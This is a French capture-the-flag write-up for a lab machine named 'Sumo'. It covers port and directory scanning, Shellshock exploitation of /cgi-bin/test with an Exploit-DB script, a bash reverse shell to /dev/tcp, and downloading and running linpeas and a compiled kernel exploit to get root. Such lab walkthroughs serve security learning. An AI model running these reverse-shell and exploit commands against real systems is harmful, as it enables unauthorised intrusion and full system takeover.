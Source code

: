 # Sumo

    sudo nmap -p- -sV -T5 192.168.161.87
    sudo masscan -p1-65535,U:1-65535 --rate=1000 192.168.161.87 -e tun0
    sudo /home/timothe/.local/bin/autorecon 192.168.161.87
    gobuster dir -u http://192.168.161.87 -w  /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt
Scans classiques.

Absolument rien d'exploitable sur le site à première vue : 

> /.htpasswd (Status: 403) [Size: 291]   
> /.htaccess (Status: 403) [Size: 291]   
> /cgi-bin/ (Status: 403) [Size: 290]   
> /index (Status: 200) [Size: 177]   
> /server-status (Status: 403) [Size: 295]

Mais en lançant un scan avec Nikto on voit que le site serait potentiellement exposé aux vulnérabilités de type Shellshock. Et c'est vrai que le fait de voir un dossier **/cgi-bin/** doit être un déclic pour tester la Shellshock, même si il est en 403.

    ffuf -w /usr/share/seclists/Discovery/Web-Content/CGIs.txt -u http://192.168.161.87/cgi-bin/FUZZ.sh -e .sh,.cgi -fc 403
Ce fuzzing fonctionne et nous sort des résultats positifs pour **"test"** et en effet l'URL http://192.168.161.87/cgi-bin/test amène sur une page indiquant **"CGI Default !"**

Pour l'exploitation, j'ai trouvé un bon script tout fait au lieu de m'embêter à passer par cURL : 
<br /> https://www.exploit-db.com/exploits/34900

    vim exploit_Shellshock.py
    python2.7 exploit_Shellshock.py payload=reverse rhost=192.168.161.87 lhost=192.168.45.171 lport=9999 pages=/cgi-bin/test
    /bin/bash -i >& /dev/tcp/192.168.45.171/1234 0>&1
    cat local.txt

Élévation de privilèges classique avec un CVE : 

    wget http://192.168.45.171/linpeas.sh
    chmod u+x ./linpeas.sh
    ./linpeas.sh | tee resultat.txt
    ...
    wget http://192.168.45.171/exploit_Linux_33589.c
    gcc exploit_Linux_33589.c -O2 -o ./33589.sh
    ./33589.sh 0
    ls /root
    cat /root/proof.txt
